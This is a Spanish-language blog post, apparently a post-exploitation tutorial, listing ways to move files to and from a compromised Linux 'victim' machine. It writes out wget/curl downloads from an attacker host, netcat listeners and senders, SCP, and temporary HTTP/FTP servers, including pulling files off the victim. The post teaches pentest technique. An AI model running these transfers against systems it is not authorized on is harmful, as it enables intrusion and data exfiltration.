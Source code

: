 ```yaml
---
layout: single
title: Subida y Bajada de archivos (Post explotacion) 
excerpt:
date: 2024-01-17
classes: wide
header:
  teaser: /assets/images/archivoslinux/kali_linux.jpg
  teaser_home_page: true
categories:
  - hacking
  - linux
  - 
tags:  
  - hacking
  - linux
---
```


buenas. hoy vengo a enseñar los metodos de post explotacion para subir y bajar archivos dependiendo de la conexion que tengamos con la maquina victima

## Subir archivos a la victima

## HTTP server

con este metodo habriremos un servidor de python en el directorio donde esta el archivo que queremos subir.
 
 comando maquina atacante:
```python

python -m SimpleHTTPServer 80

```
comandos para la maquina victima:

```python
wget http://<Tu_IP>/<elarchivo>

o

curl -o FiletoTransfer http://<tu_IP>/<elarchivo>
```
## SCP

ESTE METODO SOLO SERA VALIDO SI LA MAQUINA OBJETIVO TIENE SSH Y DISPONEMOS DE LAS CREDENCIALES.

en este solo necesitamos un comando:

```python

scp FiletoTransfer <usuario>@<IP>:<archivo>

```

## FTP

Montaremos un ftp temporal(podriamos utilizar un ftp convencional) utilizando la utilidad twistd para asi acceder desde la víctima y descargar el archivo

el comando de la maquina atacante: 

```python

twistd -n ftp -r .

```

maquina victima:

```python

wget ftp://<IP>:<puerto_a_elegir>/<archivo>

```
## netcat

podemos usar netcat para poder pasar archivos. casi todas las maquinas linux lo traen pre instalado entonces podemos usarlo

primero tenemos que ejecutar el comando en la maquina victima 

```python

nc -lvp <port_a_elegir> > FiletoTransfer

```

y despues la maquina atacante 

```python

	
nc <IP> <Port_a_elegit> -w 3 < <archivo>


```

## Bajar archivos de la víctima

## Netcat

se pude utilizar netcat a la inversa para hace este procedimiento, pero hay que tener en cuenta los permisos que tenga el usuario sobre el archivo

Comando máquina atacante:

```python
	
nc -lvp <Puerto_a_elegir> > FiletoDownload

```
Comando máquina víctima:

```python
	
nc <IP> <Puerto_a_elegir> -w 3 < <archivo>

```

## Server HTTP

es basicamente lo mismo que e hemos echo para subir archivos pero al reves.

tambien, hay que tener en cuenta que la maquina tenga python y los permisos que tenga

Comando máquina víctima:

```python

python -m SimpleHTTPServer 8080

```

Comando máquina atacante:

```python

wget http://<IP>:8080/<archivo>

```

## SCP

Este metodo solo será valido si la máquina objetivo tiene ssh y disponemos de las credenciales.
Utilizaremos la utilidad scp para transferir el archivo de la máquina víctima a la nuestra.

Comando máquina atacante:

```python

scp tester@<IP>:<archivo> .

```
## conclusion

estas son algunas de las mas utilizadas, seguro hay mas. 
pronto subire este articulo pero para windows.
adios 